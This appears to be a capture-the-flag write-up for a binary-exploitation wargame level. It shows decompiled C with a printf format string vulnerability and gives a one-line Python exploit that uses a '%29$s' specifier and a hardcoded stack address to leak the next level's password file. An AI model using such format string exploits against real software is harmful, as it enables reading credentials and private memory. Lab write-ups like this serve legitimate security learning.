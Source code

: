 # LEVEL 02

* decompile the binary
	- we found a string formatting vulnerability.
		```c
		fgets(local_78,100,stdin);
		...
		printf(local_78);
		```
	- we know the flag is being written to the stack
		```c
		local_10 = fopen("/home/users/level03/.pass","r");
		...
		fread(local_a8,1,41,local_10);
		```

* to exploit the vulnerability:
	- type the command:
		```shell
		python -c 'from struct import *; print "%29$s   " + pack("L", 0x7fffffffe510) ' | ./level02
		```
-------
### explinations:
- `0x7fffffffe510` : the flag address in the stack
- `29 in "%29$s"` : index of where the flag addres is located in the stack
